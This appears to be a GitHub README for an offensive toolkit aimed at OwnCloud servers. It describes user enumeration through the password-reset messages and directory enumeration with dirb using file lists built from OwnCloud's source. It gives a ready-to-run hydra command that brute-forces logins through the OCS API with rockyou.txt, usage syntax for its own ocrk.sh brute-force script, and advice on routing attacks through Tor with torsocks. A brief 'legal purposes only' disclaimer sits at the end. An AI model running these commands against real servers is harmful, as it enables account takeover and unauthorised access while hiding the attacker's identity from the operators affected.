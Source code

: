 
OwnCloud Crack
====
A repository for OwnCloud hacking, originally intended only to bruteforce accounts. Later, more ideas came.

User enumeration
-------

Forgot password option:
User doesn't exist message on web login: "Couldn't send reset email. Please make sure your username is correct."
User exist message on web login: "The link to reset your password has been sent to your email. If you do not receive it within a reasonable amount of time, check your spam/junk folders. If it is not there ask your local administrator."


Folder enumeration
-------

Get the source code from github and the follow the filenames from the core folder.

    git clone https://github.com/owncloud/core
    cd core
    find -follow | sed 's/^\.\///g' > owncloud_files.txt
    dirb https://testdomain.org owncloud_files.txt


Bruteforce OwnCloud accounts using it's OCS API.
-------
Note that these scripts (ocrk.sh and ocrk.py) were written for educational purposes and you can also use hydra:

    hydra domain.org https-post-form "/ocs/v1.php/person/check:login=^USER^&password=^PASS^:S=<status>ok</status>" -L userlist.txt -P rockyou.txt -vv 

ocrk help with the "-h" switch:

    ./ocrk.sh -h

Before run, it's more convinient to make it executable: chmod +x ocrk.sh
Else you need to run it like "sh ocrk.sh"

    Syntax: ./ocrk.sh <site url> <username> <passwordlist>
    Example: ./orck.sh https://www.crkoc.com/ admin rockyou.txt

You can use this over Tor, but the "torify" command is not recommended. Use ". torsocks on" before running.

Use for legal purposes only.
